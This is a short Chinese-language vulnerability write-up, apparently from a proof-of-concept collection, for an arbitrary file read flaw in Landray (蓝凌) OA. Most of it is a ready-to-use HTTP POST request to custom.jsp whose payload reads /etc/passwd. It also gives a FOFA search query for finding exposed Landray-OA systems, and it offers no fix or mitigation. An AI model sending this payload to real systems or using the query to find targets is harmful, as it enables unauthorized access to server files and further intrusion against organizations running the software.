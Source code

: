 #### 影响范围

蓝凌OA

#### 漏洞概述

蓝凌软件全称深圳市蓝凌软件股份有限公司于2001年在深圳科技园成立，蓝凌是国内知名的大平台OA服务商和国内领先的知识管理解决方案提供商，是专业从事组织的知识化咨询、软件研发、实施、技术服务的国家级高新技术企业，近期Landray-OA系统被爆出存任意文件读取漏洞

#### 漏洞复现

文件读取：

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}
```

![Langley_RCE](img/Langley_RCE.png)

#### 目标检索

FOFA:
```
app="Landray-OA系统"
```













